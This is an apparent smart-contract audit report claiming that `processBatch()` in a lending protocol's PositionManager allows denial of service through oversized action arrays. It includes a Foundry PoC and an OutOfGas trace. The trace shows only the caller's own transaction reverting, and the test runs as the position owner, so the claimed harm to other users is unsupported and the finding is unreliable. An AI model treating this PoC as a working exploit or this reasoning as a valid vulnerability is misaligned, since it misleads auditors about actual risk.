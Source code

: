 Bouncy Banana Aardvark

Medium

# Malicious Attackers Will Cause Denial of Service for Users by Exploiting processBatch()

### Summary

The lack of a size check for the `actions` array in `PositionManager.sol` will cause a denial of service (DoS) for users as a malicious attacker can exploit the gas limit by submitting excessively large action arrays, forcing the transaction to revert.`

### Root Cause

In `PositionManager.sol:238-246`, the `processBatch()` function does not limit the size of the actions array.
https://github.com/sentimentxyz/protocol-v2/blob/04bf15565165396608cc0aedacf05897235518fd/src/PositionManager.sol#L238-L246

### Internal pre-conditions

1. Admin needs to deploy `PositionManager`.

### External pre-conditions

No external pre-conditions are required.

### Attack Path

1. A malicious attacker calls `processBatch()` with an excessively large array of actions.
2. The transaction processes each action sequentially.
3. The array's size causes the gas limit to be exceeded, resulting in a reverted transaction.
4. The attacker repeats the DoS attack.
5. Legitimate users are affected as their transactions may also be delayed or reverted due to the DoS attack.

### Impact

The users suffer from transaction failures and delays, leading to significant frustration and financial losses due to wasted gas fees and failed transactions.
The protocol suffers from degraded performance and potential loss of user trust, as it becomes susceptible to DoS attacks.

### PoC

```solidity
    function testSimpleExec() public {
        TestCallContract testContract = new TestCallContract(false);

        bytes memory data = abi.encodePacked(address(testContract), uint256(0), bytes4(keccak256("testCall()")));
        Action memory action = Action({ op: Operation.Exec, data: data });
        Action[] memory actions = new Action[](50000);
        for(uint i = 0; i < 50000; i++) {
            actions[i] = action;
        }

        vm.prank(positionManager.owner());
        positionManager.toggleKnownFunc(address(testContract), bytes4(keccak256("testCall()")));

        vm.prank(positionOwner);

        PositionManager(positionManager).processBatch(position, actions);
    }

contract TestCallContract {
    bool immutable revertOrNot;
    uint256 public ping;
    uint256[] public data;

    constructor(bool _revertOrNot) {
        revertOrNot = _revertOrNot;
    }

    function testCall() public {
        if (revertOrNot) revert("Call Revert");
        ping++;
        data.push(ping);
    }
}
```
The result is like this.
```solidity
    │   │   ├─ [11528] BeaconProxy::exec(TestCallContract: [0x3D7Ebc40AF7092E3F1C81F2e996cbA5Cae2090d7], 0, 0xb7f05836)
    │   │   │   ├─ [330] UpgradeableBeacon::implementation() [staticcall]
    │   │   │   │   └─ ← [Return] Position: [0x40b4863C923385D1632d640B097DDeA6EaB92e76]
    │   │   │   ├─ [10431] Position::exec(TestCallContract: [0x3D7Ebc40AF7092E3F1C81F2e996cbA5Cae2090d7], 0, 0xb7f05836) [delegatecall]
    │   │   │   │   ├─ [779] TestCallContract::testCall()
    │   │   │   │   │   └─ ← [OutOfGas] EvmError: OutOfGas
    │   │   │   │   └─ ← [OutOfGas] EvmError: OutOfGas
    │   │   │   └─ ← [Revert] EvmError: Revert
    │   │   └─ ← [Revert] EvmError: Revert
    │   └─ ← [Revert] EvmError: Revert
    └─ ← [Revert] EvmError: Revert
```

### Mitigation

Implement a size check in the `processBatch()` function to limit the maximum number of actions that can be processed in a single transaction.